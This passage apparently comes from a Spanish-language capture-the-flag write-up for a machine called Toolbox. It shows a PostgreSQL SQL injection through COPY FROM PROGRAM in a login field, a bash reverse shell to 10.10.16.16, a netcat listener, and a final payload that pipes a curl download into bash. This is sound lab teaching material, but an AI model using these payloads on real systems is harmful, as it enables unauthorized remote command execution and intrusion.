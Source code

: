 ```
username=test';COPY+cmd_exec+FROM+PROGRAM+'which curl';--+-+&password=test
```

## Intrusión

Vamos a crearos un archivo llamado `shell` con este contenido en su interior

```
bash -i >& /dev/tcp/10.10.16.16/9993 0>&1
```

En el `mismo directorio` donde nos hemos `creado` este `archivo` nos vamos a montar un `servidor http`

```
# python -m http.server 80
```

Nos ponemos en `escucha` con `netcat` por el puerto `9993`

```
# nc -nlvp 9993
```

Nos mandamos un `shell` a nuestro equipo

![](/assets/img/Toolbox/image_7.png)

```
username=test';COPY+cmd_exec+FROM+PROGRAM+'curl http://10.10.16.16/shell|bash';--+-+&password=test
```
